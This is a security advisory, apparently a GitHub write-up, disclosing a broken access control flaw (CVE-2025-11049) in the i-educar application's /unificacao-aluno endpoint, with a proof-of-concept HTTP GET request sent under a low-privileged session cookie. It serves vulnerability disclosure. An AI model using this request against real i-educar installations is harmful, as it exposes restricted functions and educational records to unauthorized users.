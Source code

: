 # Broken Access Control  in `/unificacao-aluno` Endpoint

---

## Summary

A **Broken Access Control** vulnerability was identified in the `/unificacao-aluno` endpoint of the _i-educar_ application. This vulnerability allows users without proper permissions to access restricted functionality, bypassing authorization checks.

---

## Details

**Vulnerable Endpoint:** `GET /unificacao-aluno`  
**Authentication:** Required

The application fails to properly validate user permissions before granting access to this endpoint. As a result, even low-privileged users can successfully access the functionality intended only for permited users .

---

## PoC

1. Authenticate as a non-privileged user.
   
<img width="1603" height="673" alt="Pasted image 20250914131157" src="https://github.com/user-attachments/assets/d8137058-99cb-4811-805a-0ad38bbc5098" />

<img width="936" height="436" alt="Pasted image 20250821191019" src="https://github.com/user-attachments/assets/48932552-3481-4753-bfb5-fcc8d777e690" />

    
2. Send the following request::

```
GET /unificacao-aluno HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://localhost/intranet/educar_consulta_movimento_mensal_lst.php?ano=2025&ref_cod_instituicao=1&ref_cod_escola=4&ref_cod_curso=3&ref_cod_serie=&ref_cod_turma=&data_inicial=01%2F08%2F2025&data_final=31%2F08%2F2025&modalidade=1
Cookie: i_educar_session=[low_privileged cookie]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```
    
3. We could observe that we have access to the page and to the function. And, this user, should not do that.

<img width="1585" height="666" alt="Pasted image 20250914132409" src="https://github.com/user-attachments/assets/d40ae3c9-5353-4e60-b22b-d7b5edbbc635" />


---

## Impact

Broken Access Control vulnerabilities can have severe consequences, including:

- Unauthorized access to restricted functionality
    
- Escalation of privileges for low-level users
    
- Exposure of sensitive data and potential system compromise
    
- Loss of confidentiality and integrity of educational records
    
- Reputational damage to the organization
    

---

## References

[CVE-2025-11049](https://www.cve.org/CVERecord?id=CVE-2025-11049)

[VulnDB-326086](https://vuldb.com/?id.326086)

[I-Educar – Official Repository](https://github.com/portabilis/i-educar)

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr) 

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
